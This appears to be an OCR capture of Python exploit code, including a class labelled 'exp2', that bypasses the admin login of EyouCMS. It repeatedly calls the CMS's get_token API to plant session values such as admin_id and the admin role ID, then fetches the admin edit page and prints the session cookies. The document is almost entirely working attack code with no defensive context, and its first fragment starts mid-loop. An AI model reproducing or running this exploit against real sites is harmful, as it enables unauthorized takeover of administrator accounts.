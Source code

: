 ```python
    houtai = "http://192.168.10.14/login.php?m=admin&c=Admin&a=admin_edit&id=1&lang=cn"
    req2 = r.get(url=houtai, headers=header)
    if req2.status_code ==200:
        print(req2.text)
        break
while True:
    url2 ="http://192.168.10.14/?m=api&c=Ajax&a=get_token&name=admin_info.role_id"
    req3 = r.get(url=url2,headers=header)
    houtai = "http://192.168.10.14//login.php?m=admin&c=Admin&a=admin_edit&id=1&lang=cn"
    req4 = r.get(url=houtai, headers=header)
    if '用户头像' in req4.text:
        print("ok")
        print(res.headers['set-cookie'])
        break
```

exp2：

```python
from time import time, sleep
import requests
import sys


class EyouCMS:
    def __init__(self, URL):
        self.Req = requests.session()
        self.URL = URL
        self.SleepTime = 0.5
        self.AdminURL = 'login.php?m=admin&c=Admin&a=admin_edit&id=1&lang=cn'
        self.Payload = 'index.php/?m=api&c=ajax&a=get_token&name='
        self.admin_id = 'admin_id'
        self.admin_login_expire = 'admin_login_expire'
        self.admin_info_role_id = 'admin_info.role_id'
        self.Headers = {
            'x-requested-with': 'XMLHttpRequest',
        }

    def Banner(self):
        print("-" * 10 + "后台登录绕过" + "-" * 10)

    def change(self, string):
        temp = ''
        for n, s in enumerate(string):
            if n == 0:
                if s.isalpha():
                    return '0'
                    break
            if s.isdigit():
                temp += str(s)
            else:
                if s.isalpha():
                    break
        return temp

    def SetID(self):
        res = self.Req.get(self.URL + self.Payload + self.admin_id, headers=self.Headers)
        print("admin_id[+]:\t\t\t\t\t" + res.text)
        if 'Set-cookie' in res.headers:
            print(res.headers['set-cookie'])
        if res.status_code != 200:
            sys.exit("Api模块请求404")
        # print(res.headers)

```